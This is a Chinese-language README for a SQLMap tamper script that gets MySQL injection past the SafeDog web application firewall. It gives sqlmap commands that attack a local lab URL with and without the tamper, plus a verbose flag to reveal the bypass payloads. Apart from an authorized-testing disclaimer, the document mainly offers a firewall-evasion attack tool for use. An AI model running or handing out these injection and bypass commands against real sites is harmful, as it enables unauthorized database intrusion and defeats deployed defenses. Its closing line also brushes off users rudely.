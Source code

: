 # MySQLByPassForSafeDog / MySQL注入绕安全狗Tamper

## Code By:Tas9er @A.E.0.S Security Team

######################################################################## 

##### :x:风险概述:

本工具仅限授权安全测试使用,禁止非法攻击未授权站点



##### :ballot_box_with_check:使用教程

此Tamper仅仅适用于MySQL数据库

在SQLMap使用过程中添加参数--tamper=MySQLByPassForSafeDog



##### :trident:绕过测试

(安全狗公司真的业内良心，免费产品都保持渐进式更新，我都看哭了)

安装网站安全狗Apache最新版

![01](image\01.jpg)



启用安全狗，不加MySQLByPassForSafeDog绕狗Tamper:

python sqlmap.py -u "http://192.168.2.3:60001/sqli.php?id=1" --random-agent --dbms=mysql

![2](image\2.jpg)



启用安全狗，添加MySQLByPassForSafeDog绕狗Tamper:

python sqlmap.py -u "http://192.168.2.3:60001/sqli.php?id=1" --random-agent --dbms=mysql --tamper=MySQLByPassForSafeDog

![3](image\3.jpg)



##### :100:绕过POC

可以添加参数-v 3进行学习查看

python sqlmap.py -u "http://192.168.2.3:60001/sqli.php?id=1" --random-agent --dbms=mysql --tamper=MySQLByPassForSafeDog -v 3

![4](image\4.jpg)



##### 问题反馈

别你🐴天天问东问西，有bug有想法自己想办法。

